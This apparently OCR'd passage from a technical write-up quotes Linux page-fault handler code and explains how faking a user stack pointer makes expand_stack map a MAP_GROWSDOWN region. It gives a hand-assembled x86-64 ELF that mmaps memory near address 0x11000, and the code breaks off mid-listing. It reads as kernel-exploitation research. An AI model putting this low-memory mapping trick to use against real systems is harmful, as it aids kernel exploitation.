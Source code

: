 ```c
if (error_code & PF_USER) {
  if (unlikely(address + 65536 + 32 * sizeof(unsigned long) < regs->sp)) 
  {
      bad_area(regs, error_code, address);
      return;
  }
}
if (unlikely(expand_stack(vma, address))) {
  bad_area(regs, error_code, address);
  return;
}
```

Therefore avoiding bad_area, will result in expand_stack get executed, that will map our memory region, calling expand_downward from the passed address. 

So setting rsp to an address near before the faulting address, will simulate a User Mode Stack. 
Just a mov rsp, 0x10100 was missing to our initial code!

So our final ELF will be:

```
BITS 64
  org 0x400000
 
ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  2         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _start    ; e_entry
  dq  phdr - $$ ; e_phoff
  dq  0         ; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  1         ; e_phnum
  dw  0         ; e_shentsize
  dw  0         ; e_shnum
  dw  0         ; e_shstrndx
  ehdrsize  equ  $ - ehdr
 
phdr:           ; Elf64_Phdr
  dd  1         ; p_type
  dd  5         ; p_flags
  dq  0         ; p_offset
  dq  $$        ; p_vaddr
  dq  $$        ; p_paddr
  dq  filesize  ; p_filesz
  dq  filesize  ; p_memsz
  dq  0x1000    ; p_align
  phdrsize  equ  $ - phdr
 
_start:
  mov rax, 9 ; mmap
  mov rdi, 0x11000 ; addr = 0x11000
  mov rsi, 4096 ; size = 4096
  mov rdx, 3 ; prot = PROT_READ | PROT_WRITE
  mov r10, 306 ; flags = MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED | MAP_GROWSDOWN
  xor r8, r8 ; fd = -1
  dec r8
  xor r9, r9 ; off = 0
  syscall
  mov rax, qword [filename]
```